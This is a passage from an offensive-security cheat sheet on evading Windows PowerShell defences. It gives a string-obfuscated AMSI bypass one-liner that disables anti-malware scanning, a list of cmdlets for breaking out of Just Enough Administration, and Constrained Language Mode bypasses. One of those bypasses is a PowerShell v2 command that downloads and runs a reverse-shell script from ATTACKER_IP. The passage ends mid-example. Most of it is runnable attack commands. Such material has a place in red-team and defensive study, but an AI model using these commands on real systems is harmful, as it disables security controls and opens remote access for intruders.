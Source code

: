 ### Anti Malware Scan Interface

> The Anti-Malware Scan Interface (AMSI) is a Windows API (Application Programming Interface) that provides a unified interface for applications and services to integrate with any anti-malware product installed on a system. The API allows anti-malware solutions to scan files and scripts at runtime, and provides a means for applications to request a scan of specific content.

Find more AMSI bypass: [Windows - AMSI Bypass.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Just Enough Administration

> Just-Enough-Administration (JEA) is a feature in Microsoft Windows Server that allows administrators to delegate specific administrative tasks to non-administrative users. JEA provides a secure and controlled way to grant limited, just-enough access to systems, while ensuring that the user cannot perform unintended actions or access sensitive information.

Breaking out if JEA:
* List available cmdlets: `command`
* Look for non-default cmdlets:
    ```ps1
    Set-PSSessionConfiguration
    Start-Process
    New-Service
    Add-Computer
    ```


### Constrained Language Mode

Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`

* Bypass using an old Powershell. Powershell v2 doesn't support CLM.
    ```ps1
    powershell.exe -version 2
    powershell.exe -version 2 -ExecutionPolicy bypass
    powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
    ```

* Bypass when `__PSLockDownPolicy` is used. Just put "System32" somewhere in the path. 
    ```ps1
    # Enable CLM from the environment
    [Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4', 'Machine')
    Get-ChildItem -Path Env:

    # Create a check-mode.ps1 containing your "evil" powershell commands
    $mode = $ExecutionContext.SessionState.LanguageMode
    write-host $mode
